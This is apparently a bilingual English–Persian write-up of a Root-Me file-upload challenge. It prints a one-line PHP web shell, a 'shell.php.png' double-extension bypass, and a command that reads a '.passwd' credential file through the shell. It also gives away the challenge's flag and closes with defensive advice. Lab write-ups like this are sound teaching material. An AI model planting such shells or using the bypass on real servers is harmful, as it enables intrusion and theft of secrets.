









# File upload - Double extensions

**Category:** Web-Server · **Points:** 20 · **Author:** g0uZ · **Platform:** [Root-Me](https://www.root-me.org)

---

## 🇬🇧 English

### Statement
"Gallery v0.02" — a small photo gallery app. The goal is to compromise it by uploading PHP code, then recover the validation password stored in a `.passwd` file at the root of the application.





### Approach
The upload form explicitly states only `.gif`, `.jpeg` and `.png` files are accepted:





The goal is to get arbitrary PHP code to execute on the server, so I first prepared a minimal PHP web shell:

```php
<?php
system($_GET['cmd']);
?>
```



A server that naively checks only the file's **extension** (and only the *last* one, or the *first* one depending on how the check is implemented) for an allowed value, rather than its actual content/MIME type, can often be fooled by stacking two extensions. I saved the shell as:

```
shell.php.png
```



The upload succeeded — the application reports the file as `image/png` and stores it under a randomly-named upload folder:



Requesting the uploaded file directly in the browser (with no parameters) returns a PHP warning:

> Warning: system(): Cannot execute a blank command in .../shell.php.png on line 3



This confirms the server is actually executing the uploaded `.php.png` file as PHP (its web server, likely Apache with a misconfigured handler matching on `.php` anywhere in the filename, not just as the final extension) — the upload filter only checked the extension string, not real content, and the execution layer doesn't require `.php` to be the *last* extension either.

With code execution confirmed, I just needed to add the `cmd` parameter to run an actual command — reading the password file from the application root with a path traversal:

```
shell.php.png?cmd=cat ../../../.passwd
```



### Result
Password: `Gg9LRz-hWSxqqUKd77-_q-6G8`

### Takeaway
File upload validation must check actual file content (magic bytes / re-encoding the image) rather than trusting the client-supplied filename or extension. A filename like `shell.php.png` demonstrates a classic "double extension" bypass: naive filters that look for *an* allowed extension anywhere in the name, or that only check the extension and not how the web server itself decides what to execute, can both be defeated this way. Uploaded files should also be stored outside the web root, or served from a location where script execution is explicitly disabled, so that even a successfully uploaded malicious file can never run as code.

---

## 🇮🇷 فارسی

### صورت مسئله
«Gallery v0.02» — یه اپلیکیشن ساده‌ی گالری عکس. هدف اینه که با آپلود کد PHP این گالری رو کامپرومایز کنیم و پسورد اعتبارسنجی که توی یه فایل `.passwd` در ریشه‌ی اپلیکیشن ذخیره شده رو پیدا کنیم.


### روش حل
فرم آپلود صریحاً میگه که فقط فایل‌های `.gif`، `.jpeg` و `.png` قبول میشن:


هدف اینه که یه کد PHP دلخواه رو روی سرور اجرا کنیم، برای همین اول یه وب‌شل PHP خیلی ساده آماده کردم:

```php
<?php
system($_GET['cmd']);
?>
```


یه سروری که فقط به‌صورت ساده‌لوحانه **پسوند** فایل رو چک میکنه (و بسته به اینکه چک چطوری پیاده‌سازی شده، فقط آخرین پسوند یا فقط اولین پسوند رو در نظر میگیره) به‌جای محتوای واقعی یا MIME type، معمولاً با گذاشتن دو پسوند روی هم قابل دور زدنه - شل رو با این اسم ذخیره کردم:

```
shell.php.png
```


آپلود موفق بود - اپلیکیشن فایل رو به‌عنوان `image/png` گزارش میکنه و توی یه پوشه‌ی آپلود با اسم تصادفی ذخیرش میکنه:


وقتی مستقیم آدرس فایل آپلودشده رو توی مرورگر باز میکنیم (بدون هیچ پارامتری) یه هشدار PHP برمیگرده:

> Warning: system(): Cannot execute a blank command in .../shell.php.png on line 3


این تأیید میکنه که سرور واقعاً داره فایل آپلودشده‌ی `.php.png` رو به‌عنوان PHP اجرا میکنه (وب‌سرورش، احتمالاً Apache با یه هندلر پیکربندی‌شده‌ی اشتباه که با وجود `.php` در هر جای اسم فایل مچ میکنه، نه فقط به‌عنوان پسوند آخر) - فیلتر آپلود فقط رشته‌ی پسوند رو چک کرده بود، نه محتوای واقعی، و لایه‌ی اجرا هم نیازی نداره که `.php` حتماً **آخرین** پسوند باشه.

حالا که اجرای کد تأیید شده، فقط کافیه پارامتر `cmd` رو اضافه کنیم تا یه دستور واقعی اجرا بشه - و با یه path traversal، فایل پسورد رو از ریشه‌ی اپلیکیشن میخونیم:

```
shell.php.png?cmd=cat ../../../.passwd
```


### نتیجه
پسورد: `Gg9LRz-hWSxqqUKd77-_q-6G8`

### جمع‌بندی
اعتبارسنجی آپلود فایل باید محتوای واقعی فایل (magic bytes / بازتولید عکس) رو چک کنه، نه اینکه به اسم فایل یا پسوندی که کلاینت فرستاده اعتماد کنه. اسمی مثل `shell.php.png` یه نمونه‌ی کلاسیک از دور زدن با «پسوند دوتایی» هست: فیلترهای ساده‌لوحی که دنبال *یه* پسوند مجاز در هر جای اسم فایل میگردن، یا فقط پسوند رو چک میکنن و به نحوه‌ی تصمیم‌گیری خود وب‌سرور برای اجرا توجه نمیکنن، هر دو با همین روش قابل دور زدن‌ان. فایل‌های آپلودشده همچنین باید بیرون از ریشه‌ی وب ذخیره بشن، یا از مسیری سرو بشن که اجرای اسکریپت توش صریحاً غیرفعاله، تا حتی یه فایل مخرب آپلودشده‌ی موفق هم هیچ‌وقت نتونه به‌عنوان کد اجرا بشه.
